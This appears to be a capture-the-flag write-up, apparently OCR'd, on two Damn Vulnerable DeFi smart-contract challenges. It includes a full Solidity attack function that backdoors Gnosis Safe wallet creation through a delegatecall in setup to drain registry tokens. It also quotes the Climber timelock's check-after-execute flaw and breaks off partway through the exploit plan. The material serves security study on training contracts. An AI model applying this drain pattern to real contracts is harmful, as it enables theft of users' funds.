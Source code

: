 ```ad-note
Your goal is to take all funds from the registry. In a single transaction.
```ad-tip
resource https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets/

there is only one contract in this challenge WalletRegistry and this contract is A registry for Gnosis Safe wallets  and if you are a beneficiaries creating a wallet it will send you 10 DVT token and  we can create new Gnosis safes with anyone as the owner which means we can create a safe on the behalf of the beneficiraies  During  this  the contract will transfer 10 DVT to the newly created Gnosis safe. However we are can't access it since it is  owned by one of the beneficiaries.  
the wallerRegistry docs says that  the proxyCreated is excuted when it is called via GnosisSafeProxyFactory::createProxyWithCallback
and what this function do is creates a GnossisSafe proxy via the deployProxyWithNonce function  
- If an initializer payload is provided  it calls that on the proxy  and the GnosisSafe.setup function accept to and data parameter and they are passed to Executor.execute function to make a delegateCall into to with a payload data so we can use it to approve all the token for ourself 
- . The factory calls the proxyCreated function on the provided callback _WalletRegistry address.

```function approve(address spender, address token) external {
IERC20(token).approve(spender, type(uint256).max);
}
function attack(address tokenAddress, address hacker, address[] calldata users) public {
for (uint256 i = 0; i < users.length; i++) {
address user = users[i];
address[] memory owners = new address[](1);
owners[0] = user;
bytes memory encodedApprove = abi.encodeWithSignature("approve(address,address)", address(this), tokenAddress);
bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",
owners, 1, address(this), encodedApprove, address(0), 0, 0, 0);
GnosisSafeProxy proxy =
proxyFactory.createProxyWithCallback(masterCopyAddress, initializer, 0, IProxyCreationCallback(walletRegistryAddress));
IERC20(tokenAddress).transferFrom(address(proxy), hacker, 10 ether);
}
}
```
```ad-note
title: # Challenge #12 - Climber
There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the [UUPS pattern](https://eips.ethereum.org/EIPS/eip-1822).

The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

Your goal is to empty the vault.

we can find 2 smart contract in this challenge 
-ClimberTimelock
-- this contract has a function called execute which violated checks-effects-interation the state is checked after the executing
```for (uint8 i = 0; i < targets.length; i++) {
targets[i].functionCallWithValue(dataElements[i], values[i]);
}
require(getOperationState(id) == OperationState.ReadyForExecution);
```
```ad-note
so what we can do is 
- Set the grant ourselve  PROPOSER role.
```